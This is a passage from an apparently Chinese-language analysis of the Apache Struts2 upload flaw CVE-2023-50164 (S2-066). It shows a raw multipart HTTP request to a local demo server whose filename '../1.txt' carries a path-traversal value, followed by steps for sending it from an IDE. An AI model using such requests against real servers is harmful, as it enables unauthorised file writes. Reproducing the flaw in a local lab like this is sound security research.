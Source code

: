 ![Untitled](Apache%20Struts2%20%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0%E5%88%86%E6%9E%90(CVE-2023-50164%20S2-066)%20545486c2c0f74ea786f6c05eb42f7267/Untitled%207.png)

测试一下文件上传, 请求包如下

```
POST /apachestrutsdemo_war_exploded/upload.action HTTP/1.1
Host: 127.0.0.1:8082
Accept: */*
Accept-Encoding: gzip, deflate
Content-Length: 188
Content-Type: multipart/form-data; boundary=------------------------xmQEXKePZSVwNZmNjGHSafZOcxAMpAjXtGWfDZWN
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36

--------------------------xmQEXKePZSVwNZmNjGHSafZOcxAMpAjXtGWfDZWN
Content-Disposition: form-data; name="Upload"; filename="../1.txt"
Content-Type: text/plain

1aaa
--------------------------xmQEXKePZSVwNZmNjGHSafZOcxAMpAjXtGWfDZWN--
```

在 `src/test/resources`  目录下,右键新建 `HTTP` 请求, 注意修改成本地的 URL 路径, HOST 中注意端口号

点击发送
